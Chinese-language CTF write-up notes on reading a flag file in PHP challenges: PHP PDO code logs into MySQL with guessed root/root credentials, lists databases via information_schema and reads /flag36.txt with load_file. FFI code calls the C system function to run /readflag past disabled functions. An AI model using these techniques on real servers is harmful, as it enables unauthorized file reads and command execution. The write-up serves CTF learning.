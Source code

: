 ### php连接mysql获取数据（web75）

#### 适用条件

- 当获取到根目录下有/flag36.txt文件，无法使用system、include、uaf读取时，用该方法

#### information_schema数据库

[https://www.jianshu.com/p/86f1ad36e548](https://www.jianshu.com/p/86f1ad36e548)

- 该数据库中有很多表，如schemata表中存储的是数据库的名称信息

```sql
select * from information_schema.schemata//相当于show databases;
```

#### PDO连接数据库

[https://www.runoob.com/php/php-pdo.html](https://www.runoob.com/php/php-pdo.html)

- 这里猜测用户名和密码都是root

```php
$dsn = "mysql:host=localhost;dbname=information_schema";
$db = new PDO($dsn, 'root', 'root');
$rs = $db->query("select group_concat(SCHEMA_NAME) from SCHEMATA");
foreach($rs as $row){
        echo($row[0])."|"; 
}exit();

```

#### load_file加载flag

```php
$dsn = "mysql:host=localhost;dbname=//上一步查出的数据库名称//";
$db = new PDO($dsn, 'root', 'root');
$rs = $db->query("select load_file('/flag36.txt')");
foreach($rs as $row){
        echo($row[0])."|"; 
}exit();

```

### FFI调用外部函数接口读取文件

[https://www.php.net/manual/zh/ffi.cdef.php](https://www.php.net/manual/zh/ffi.cdef.php)

```php
$ffi = FFI::cdef("int system(const char *command);");//创建一个system对象
$a='/readflag > 1.txt';//没有回显的
$ffi->system($a);//通过$ffi去调用system函数
```

- FFI:cdef原型的描述为public static FFI::cdef(string $code = "", ?string $lib = null)，其中$code为一个字符串，包含常规C语言中的一系列声明，$lib为要加载和链接的共享库文件名称，如果省略lib，则平台将会尝试在全局范围内查找代码中声明的符号，其他系统将无法解析这些符号
- 上面的_**int system(const char *command);**_是c语言中对于system函数的定义
- 使用范围：**PHP 7.4**
